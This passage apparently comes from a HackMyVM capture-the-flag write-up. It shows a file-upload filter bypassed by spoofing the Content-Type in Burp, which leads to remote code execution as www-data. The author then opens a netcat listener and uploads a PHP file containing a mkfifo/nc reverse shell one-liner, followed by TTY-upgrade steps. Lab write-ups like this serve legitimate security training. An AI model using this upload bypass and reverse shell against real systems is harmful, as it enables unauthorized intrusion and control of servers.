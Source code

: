 ![The file must be an image](hmv-principle-the-file-must-be-an-image.png)
*The file must be an image*

Let's open `burp` and try to dodge the restrictions.
We configure burp as our proxy and intercept the requests.
We will modify the upload request, and we will change the `Content-Type` from `application/x-php` to `image/jpeg`:

![Content-Type: application/x-php](hmv-principle-content-type-application-x-php.png)
*Content-Type: application/x-php*

![Content-Type: image/jpeg](hmv-principle-content-type-image-jpeg.png)
*Content-Type: image/jpeg*

Once our RCE (Remote Code Execution) test is uploaded we can see that we can perform a RCE:

```
$ curl "http://hellfire.t4l0s.hmv/archivos/rctest.php" 
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

# Foothold

We have to take advantage of the RCE to convert it in a remote shell.
First we need to start a netcat listener on our host:

```
$ nc -lvnp 1234
```

And, now, we will upload a new php file, but, this time, we will upload a bash one-liner reverse shell:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f"); ?>
```

Once our file is uploaded we got shell!

We will upgrade our tty:

```
$ script /dev/null -c bash
Ctrl+Z
$ stty raw -echo; fg
$ reset
$ export TERM=xterm
$ export SHELL=bash
```

```
$ whoami
www-data
```

```
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
